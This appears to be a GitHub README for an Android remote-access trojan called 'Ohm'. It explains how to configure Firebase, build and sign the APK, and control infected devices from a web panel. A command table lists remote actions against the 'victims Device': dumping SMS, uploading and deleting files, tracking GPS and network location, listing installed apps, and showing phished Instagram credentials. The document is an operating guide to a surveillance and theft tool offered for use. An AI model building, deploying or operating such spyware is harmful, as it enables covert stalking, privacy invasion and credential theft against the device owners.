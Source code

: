 1. Now open the project and in Library Menu  go to  Firebase Section and fill all the data using ```google-services.json``` file.
1. In Project ID Field after putting your Project Name add ``` -default-rtdb``` . Example > myproject```-default-rtdb```
1. <img src="images/img3.png">
1. Now click on **Run** to Build the App , use any APK Signer Tool to sign it.
1. You app is Now ready.
1. When user will install the app his/her session will appear on Web Panel click on the User to establish Connection with that specified Device.



### Tutorial Video
Part 1 | Part 2
-------|------
 [![Part1](./images/thumbnail1.png)](https://th30neand0nly.github.io/Ohm/images/part1.mp4) | [![Part2](./images/thumbnail2.png)](https://th30neand0nly.github.io/Ohm/images/part2.mp4)

 Credits: Linuxndroid 

---

## List of Commands

Command | Definition | Example and Usage
--------|------------|---------
openfolder * <FOLDER_DIR> | This will Show the contents of Folder | ```openfolder * /sdcard/DCIM ```
uploadfile * <FILE_DIR> | This will Upload File To Firebase Storage From Device | ``` uploadfile * /sdcard/DCIM/Camera/image.png```
deletefile * <FILE_DIR> | This Will delete the specific file or folder | ```deletefile * /sdcard/DCIM/Camera/image.png```
makefolder * <FILE_DIR> | This will create a Folder | ```makefolder * /sdcard/My Folder/```
shownotify * <YOUR_MSG> | This will show notification | ```shownotify * Your Message```
openweburi * <YOUR_URI> | This will open external URL | ```openweburi * https://github.com/Th30neAnd0nly/Ohm```
playsmusic * <EXACT_MUSIC_URL> | This will play the music in Victims Device from the given music URL | ```playsmusic * https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3```
vibratedevice * <TIME_IN_MS> | Vibrates the victims Device for 'x' milliseconds | ``` vibratedevice * 500```
speachtext * <YOUR_MSG> | This will Use Text To Speach to output your message | ``` speachtext * How are You```
deviceflashon | Turns on the flash light of device | ```deviceflashon```
deviceflashoff | Turns of the flash light of victims Device | ```deviceflashoff```
changewallpaper | Changes the device wallpaper to [this](https://github.com) | ``` changewallpaper```
internaldir | Shows the Internal Storage files and Folders | ```internaldir```
installedapps | Shows the package name of all the installed apps | ```installedapps```
sysinfo | Shows The System Information | ```sysinfo```
dumpsms | Dumps all the SMS and uploads file to Firebase Storage | ```dumpsms```
showphishdata | Shows the Phished Credentials of  [Instagram](https://github.com/Th30neAnd0nly/PI) |  ```showphishdata```
getgpslocation | Shows the GPS location | ```getgpslocation```
getnetworklocation | Shows the Network Location | ```getnetworklocation```
help | Shows all the commands | ``` help```
clear | Clears the Web Terminal | ```clear```
